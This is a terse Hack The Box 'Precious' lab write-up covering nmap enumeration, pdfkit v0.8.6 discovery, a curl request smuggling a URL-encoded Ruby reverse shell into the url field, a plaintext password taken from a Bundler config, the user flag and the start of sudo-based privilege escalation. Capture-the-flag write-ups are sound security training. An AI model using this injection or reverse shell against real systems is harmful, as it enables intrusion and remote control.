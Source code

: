 #HackTheBox 
# 1- Enum
## nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
| http-server-header: 
|   nginx/1.18.0
|_  nginx/1.18.0 + Phusion Passenger(R) 6.0.15
|_http-title: Convert Web Page to PDF
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Find
┌──(root㉿kali)-[/home/…/Desktop/HTB/precious/web]
└─# curl -X POST -d "url=http://10.10.16.30/" http://precious.htb --output pdf
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 11279  100 11256  100    23   6569     13  0:00:01  0:00:01 --:--:--  6584

┌──(root㉿kali)-[/home/…/Desktop/HTB/precious/web]
└─# exiftool pdf
[...]
Creator                         : Generated by [pdfkit v0.8.6]

# Exploit [pdfkit v0.8.6] vuln
#ExploitPostRequest
┌──(root㉿kali)-[/home/…/Desktop/HTB/precious/web]
└─# curl 'http://precious.htb' -X POST -d 'url=http%3A%2F%2F10.10.16.30%3A1234%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.10.16.30%22%2C1234%29%29%27%60'

# Foothold
[ruby@precious:~/.bundle$] cat config
	BUNDLE_HTTPS://RUBYGEMS__ORG/: "[henry:Q3c1AqGHtoI0aXAYFH]"

[ruby@precious:/home$] cd henry
[ruby@precious:/home/henry$] ls -la
	total 24
	drwxr-xr-x 2 henry henry 4096 Oct 26  2022 .
	drwxr-xr-x 4 root  root  4096 Oct 26  2022 ..
	lrwxrwxrwx 1 root  root     9 Sep 26  2022 .bash_history -> /dev/null
	-rw-r--r-- 1 henry henry  220 Sep 26  2022 .bash_logout
	-rw-r--r-- 1 henry henry 3526 Sep 26  2022 .bashrc
	-rw-r--r-- 1 henry henry  807 Sep 26  2022 .profile
	-rw-r----- 1 root  henry   33 May 13 18:17 user.txt
[ruby@precious:/home/henry$] su henry
	su henry
	Password: Q3c1AqGHtoI0aXAYFH

[henry@precious:~$] cat user.txt
	cat user.txt
	c209aa8535abea5700563a780abf75cd

# PrivEsc
henry@precious:~$ sudo -l
	User henry may run the following commands on precious:
	    (root) NOPASSWD:[ /usr/bin/ruby /opt/update_dependencies.rb]

## Find
[henry@precious:/tmp$] cat /opt/update_dependencies.rb

[henry@precious:/tmp$ ]find / -type f -name dependencies.yml 2>/dev/null                                 
	/opt/sample/dependencies.yml

[henry@precious:/tmp$] cat /opt/sample/dependencies.yml
	yaml: 0.1.1
	pdfkit: 0.8.6
